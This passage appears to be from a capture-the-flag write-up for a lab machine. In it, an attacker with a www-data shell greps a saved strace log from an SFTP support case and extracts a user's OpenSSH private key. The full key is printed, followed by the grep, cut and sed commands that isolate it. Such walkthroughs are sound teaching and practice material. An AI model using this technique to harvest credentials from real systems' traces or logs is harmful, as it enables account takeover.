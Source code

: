 *If you see a shell as bindmgr, that's because it's part of the reply.
Wait for the GIF to restart, or refresh the page to see it from the
start.*

The users is trying to troubleshoot an SFTP connection using `curl`, and
the connection is using the key pair for auth. The important part of the
replay is when the admin attaches `strace` to the process, and even
saves that to a file:

[![](/img/image-20210613153827802.png)*Click
for full size
![image*](/img/image-20210613153827802.png)

`strace` will capture the private key as it's used. `grep` finds it
easily:



    www-data@dynstr:/home/bindmgr/support-case-C62796521$ grep BEGIN strace-C62796521.txt 
    15123 read(5, "-----BEGIN OPENSSH PRIVATE KEY-----\nb3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn\nNhAAAAAwEAAQAAAQEAxeKZHOy+RGhs+gnMEgsdQas7klAb37HhVANJgY7EoewTwmSCcsl1\n42kuvUhxLultlMRCj1pnZY/1sJqTywPGalR7VXo+2l0Dwx3zx7kQFiPeQJwiOM8u/g8lV3\nHjGnCvzI4UojALjCH3YPVuvuhF0yIPvJDessdot/D2VPJqS+TD/4NogynFeUrpIW5DSP+F\nL6oXil+sOM5ziRJQl/gKCWWDtUHHYwcsJpXotHxr5PibU8EgaKD6/heZXsD3Gn1VysNZdn\nUOLzjapbDdRHKRJDftvJ3ZXJYL5vtupoZuzTTD1VrOMng13Q5T90kndcpyhCQ50IW4XNbX\nCUjxJ+1jgwAAA8g3MHb+NzB2/gAAAAdzc2gtcnNhAAABAQDF4pkc7L5EaGz6CcwSCx1Bqz\nuSUBvfseFUA0mBjsSh7BPCZIJyyXXjaS69SHEu6W2UxEKPWmdlj/WwmpPLA8ZqVHtVej7a\nXQPDHfPHuRAWI95AnCI4zy7+DyVXceMacK/MjhSiMAuMIfdg9W6+6EXTIg+8kN6yx2i38P\nZU8mpL5MP/g2iDKcV5SukhbkNI/4UvqheKX6w4znOJElCX+AoJZYO1QcdjBywmlei0fGvk\n+JtTwSBooPr+F5lewPcafVXKw1l2dQ4vONqlsN1EcpEkN+28ndlclgvm+26mhm7NNMPVWs\n4yeDXdDlP3SSd1ynKEJDnQhbhc1tcJSPEn7WODAAAAAwEAAQAAAQEAmg1KPaZgiUjybcVq\nxTE52YHAoqsSyBbm4Eye0OmgUp5C07cDhvEngZ7E8D6RPoAi+wm+93Ldw8dK8e2k2QtbUD\nPswCKnA8AdyaxruDRuPY422/2w9qD0aHzKCUV0E4VeltSVY54bn0BiIW1whda1ZSTDM31k\nobFz6J8CZidCcUmLuOmnNwZI4A0Va0g9kO54leWkhnbZGYshBhLx1LMixw5Oc3adx3Aj2l\nu291/oBdcnXeaqhiOo5sQ/4wM1h8NQliFRXraymkOV7qkNPPPMPknIAVMQ3KHCJBM0XqtS\nTbCX2irUtaW+Ca6ky54TIyaWNIwZNznoMeLpINn7nUXbgQAAAIB+QqeQO7A3KHtYtTtr6A\nTyk6sAVDCvrVoIhwdAHMXV6cB/Rxu7mPXs8mbCIyiLYveMD3KT7ccMVWnnzMmcpo2vceuE\nBNS+0zkLxL7+vWkdWp/A4EWQgI0gyVh5xWIS0ETBAhwz6RUW5cVkIq6huPqrLhSAkz+dMv\nC79o7j32R2KQAAAIEA8QK44BP50YoWVVmfjvDrdxIRqbnnSNFilg30KAd1iPSaEG/XQZyX\nWv//+lBBeJ9YHlHLczZgfxR6mp4us5BXBUo3Q7bv/djJhcsnWnQA9y9I3V9jyHniK4KvDt\nU96sHx5/UyZSKSPIZ8sjXtuPZUyppMJVynbN/qFWEDNAxholEAAACBANIxP6oCTAg2yYiZ\nb6Vity5Y2kSwcNgNV/E5bVE1i48E7vzYkW7iZ8/5Xm3xyykIQVkJMef6mveI972qx3z8m5\nrlfhko8zl6OtNtayoxUbQJvKKaTmLvfpho2PyE4E34BN+OBAIOvfRxnt2x2SjtW3ojCJoG\njGPLYph+aOFCJ3+TAAAADWJpbmRtZ3JAbm9tZW4BAgMEBQ==\n-----END OPENSSH PRIVATE KEY-----\n", 4096) = 1823



A bit of `cut` and `sed` will isolate the key:



    www-data@dynstr:/home/bindmgr/support-case-C62796521$ grep BEGIN strace-C62796521.txt | cut -d'"' -f2 | sed 's/\\n/\'$'\n''/g'
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAQEAxeKZHOy+RGhs+gnMEgsdQas7klAb37HhVANJgY7EoewTwmSCcsl1
    ...[snip]...
    rlfhko8zl6OtNtayoxUbQJvKKaTmLvfpho2PyE4E34BN+OBAIOvfRxnt2x2SjtW3ojCJoG
    jGPLYph+aOFCJ3+TAAAADWJpbmRtZ3JAbm9tZW4BAgMEBQ==
    -----END OPENSSH PRIVATE KEY-----

